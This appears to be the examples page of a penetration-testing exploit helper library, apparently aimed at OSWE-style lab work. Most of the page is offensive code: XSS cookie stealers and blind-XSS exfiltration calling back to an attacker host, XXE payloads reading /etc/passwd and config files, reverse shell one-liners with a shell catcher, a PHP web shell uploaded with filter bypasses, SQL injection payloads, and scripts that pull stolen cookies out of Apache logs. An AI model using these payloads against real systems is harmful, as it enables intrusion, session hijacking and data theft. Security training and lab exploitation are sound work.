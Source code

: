 Examples
========

Common POC patterns and code snippets.

Colored Output
--------------

Use colored output for better visibility instead of ``print()``:

.. code-block:: python

   from utils.output import out

   out.success("Target is vulnerable!")       # [+] Green
   out.error("Connection failed")             # [-] Red
   out.info("Starting exploit")               # [*] Blue
   out.warning("Using default credentials")   # [!] Yellow
   out.debug(f"Response: {response.text}")    # [DEBUG] Magenta
   out.status("Extracting data...")           # [...] Cyan
   out.raw("No prefix")                       # No prefix, no color

Cookie Handling
---------------

Parse and use stolen cookies:

.. code-block:: python

   from utils.cookie import parse_cookie_string
   from utils.server_hooks import get_cookie
   import requests

   # Wait for XSS to steal cookie
   cookie_str = get_cookie(timeout=30)
   # Returns: "session=abc123; token=xyz789"

   # Parse for use with requests
   cookies = parse_cookie_string(cookie_str)
   # Returns: {'session': 'abc123', 'token': 'xyz789'}

   # Use in request
   response = requests.get(target_url, cookies=cookies)

XSS Payloads
------------

Generate XSS payloads with automatic callbacks:

.. code-block:: python

   from utils.xss import img_onerror, blind_xss, cookie_stealer, polyglot

   # Quick test payload
   payload = img_onerror(f"http://{lhost}:8000")

   # Cookie stealer with base64 encoding
   payload = cookie_stealer(f"http://{lhost}:8000")

   # Blind XSS with full context exfil
   payload = blind_xss(f"http://{lhost}:8000", identifier="admin_panel")

   # Polyglot (works in multiple contexts)
   payload = polyglot(f"http://{lhost}:8000")

   # Context-specific
   from utils.xss import context_specific
   payload = context_specific(f"http://{lhost}:8000", context="attribute")
   # Contexts: html, attribute, js, css

XXE Exploitation
----------------

Generate XXE payloads for file reading and SSRF:

.. code-block:: python

   from utils.xxe import quick_test, basic_file_read, php_filter_b64

   # Quick test (creates DTD + payload)
   payload = quick_test(f"http://{lhost}:8000", "/etc/passwd")
   # Writes DTD to payloads/xxe/xxe.dtd

   # Basic file read (in-response)
   payload = basic_file_read("/etc/passwd")

   # PHP source via filter
   payload = php_filter_b64("/var/www/html/config.php")

   # Format-specific
   from utils.xxe import svg_xxe, soap_xxe
   svg_payload = svg_xxe(f"http://{lhost}:8000", "/etc/passwd")

   # Get exfiltrated data
   from utils.server_hooks import get_exfil
   data = get_exfil(timeout=30)

Reverse Shells
--------------

Generate shells dynamically:

.. code-block:: python

   from utils.reverse_shells import bash_shell, python_oneliner, quick_bash

   # Generate shell files
   path = bash_shell("10.10.14.5", 4444)
   # Creates: payloads/shells/rev_bash.sh
   # Serve at: http://10.10.14.5:8000/shells/rev_bash.sh

   # Get one-liner for direct RCE
   cmd = python_oneliner("10.10.14.5", 4444)
   # Use in: os.system(cmd) or RCE vulnerability

   # Quick helper with download instructions
   quick_bash(lhost, 4444)  # Prints curl/wget commands

Shell Catcher
-------------

Catch reverse shells directly in Python (no netcat needed):

.. code-block:: python

   from utils.shell_catcher import ShellCatcher, auto_shell, quick_catch

   # Method 1: Full control
   catcher = ShellCatcher(4444)
   catcher.start()
   trigger_exploit()
   if catcher.wait_for_shell(timeout=30):
       catcher.stabilize()  # Upgrade to PTY
       catcher.interact()   # Interactive shell!

   # Method 2: Context manager (recommended)
   with auto_shell(4444) as catcher:
       trigger_exploit()
       if catcher.shell_caught:
           catcher.stabilize()
           catcher.interact()

   # Method 3: With trigger function
   def trigger():
       requests.get(f"http://target/rce?cmd={python_oneliner(lhost, 4444)}")

   quick_catch(4444, trigger_func=trigger)

File Upload
-----------

Upload files with bypass techniques:

.. code-block:: python

   from utils.file_upload import FileUploader, quick_upload

   # Full control
   uploader = FileUploader("http://target/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["null_byte", "double_extension", "case_variation"]
   )

   # Simple upload
   result = uploader.upload("shell.php", php_code)

   # One-liner
   quick_upload("http://target/upload", "shell.php", php_code)

Available bypass techniques:

* ``null_byte``: filename.php%00.jpg
* ``double_extension``: filename.jpg.php
* ``case_variation``: filename.PHP
* ``mime_mismatch``: Send PHP as image/jpeg

Batch Requests
--------------

Intruder-style fuzzing with concurrency:

.. code-block:: python

   import httpx
   from utils.batch_request import (
       batch_request_sync,
       generate_param_payloads,
       generate_json_payloads
   )

   # Build base request
   client = httpx.Client()
   base = client.build_request(
       "POST",
       "http://target/api/login",
       json={"username": "test", "password": "test"}
   )

   # Test SQL injection
   sqli = ["' OR '1'='1", "admin'--", "' UNION SELECT NULL--"]
   results = batch_request_sync(
       base,
       payloads=generate_json_payloads("username", sqli),
       validate=lambda r: "dashboard" in r.text,
       concurrency=5,
       proxy="http://127.0.0.1:8080"
   )

   # Find successful payloads
   for r in results:
       if r.matched:
           out.success(f"Valid: {r.payload}")

   # Enumerate IDs
   results = batch_request_sync(
       client.build_request("GET", "http://target/api/user"),
       payloads=generate_param_payloads("id", range(1, 1000)),
       validate=lambda r: r.status_code == 200,
       concurrency=50
   )

Apache Hooks (OSWE Fallback)
-----------------------------

Read callbacks from Apache logs instead of built-in server:

.. code-block:: python

   from utils.apache_hooks import get_cookie, get_exfil, get_param

   # Get cookie from Apache logs
   cookie = get_cookie('/var/log/apache2/access.log', timeout=30)
   # Auto-decodes base64, returns most recent

   # Get exfiltrated data
   data = get_exfil('/var/log/apache2/access.log', timeout=30)

   # Get custom parameter
   value = get_param('data', '/var/log/apache2/access.log', timeout=30)

   # Watch in real-time
   from utils.apache_hooks import watch_log
   watch_log('/var/log/apache2/access.log', params=['cookies', 'exfil'])

CLI watch mode:

.. code-block:: bash

   python -m utils.apache_hooks watch
   python -m utils.apache_hooks watch /var/log/apache2/access.log cookies exfil

Network Utilities
-----------------

Get network interfaces and callback IPs:

.. code-block:: python

   from utils.network import get_interfaces, get_callback_host

   # Get all interfaces
   interfaces = get_interfaces()
   # {'eth0': '10.10.14.5', 'tun0': '10.10.16.2', ...}

   # Get best callback IP (prioritizes VPN)
   lhost = get_callback_host()
   # Returns: '10.10.16.2' (or best available)

Encoding Utilities
------------------

Common encoding operations:

.. code-block:: python

   from utils.encoding import (
       b64_encode, b64_decode,
       url_encode, url_decode,
       to_hex, from_hex,
       html_encode, html_decode
   )

   # Base64
   encoded = b64_encode("admin:password")
   decoded = b64_decode("YWRtaW46cGFzc3dvcmQ=")

   # URL
   safe = url_encode("../../etc/passwd")
   unsafe = url_decode("%2e%2e%2f")

   # Hex
   hex_str = to_hex("ABCD")      # "41424344"
   text = from_hex("41424344")    # "ABCD"

HTML Parsing
------------

Easy BeautifulSoup wrapper:

.. code-block:: python

   from utils.html_parser import HTMLParser, quick_parse, parse_response

   # Parse response
   parser = HTMLParser.from_response(response)

   # Find elements
   form = parser.find_by_id("login-form")
   inputs = parser.find_all_by_class("form-input")
   links = parser.find_links()

   # CSRF tokens
   csrf = parser.find_csrf_token()
   all_tokens = parser.find_all_csrf_tokens()

   # Forms
   forms = parser.find_forms()
   for form in forms:
       data = parser.extract_form_data(form)
       print(f"Action: {form.get('action')}, Data: {data}")

   # CSS selectors
   hidden = parser.css_select("input[type='hidden']")

   # Dump helpers
   parser.dump_forms()
   parser.dump_links()

Timing Attacks
--------------

For blind time-based exploitation:

.. code-block:: python

   from utils.timing import time_request

   def attempt(payload):
       return requests.get(f"http://target?id={payload}")

   duration = time_request(attempt, "1' AND SLEEP(5)--")
   if duration > 5:
       out.success("Vulnerable to time-based SQLi!")

Zip Utilities
-------------

Create and extract zip files:

.. code-block:: python

   from utils.zip_util import quick_zip, zip_multiple, extract_zip

   # Quick zip
   quick_zip("payloads/", output="payloads.zip")

   # Zip multiple files
   zip_multiple(
       ["exploit.py", "shell.php", "config.json"],
       output_path="poc.zip"
   )

   # Extract safely (prevents zip slip)
   extract_zip("archive.zip", extract_to="./extracted")
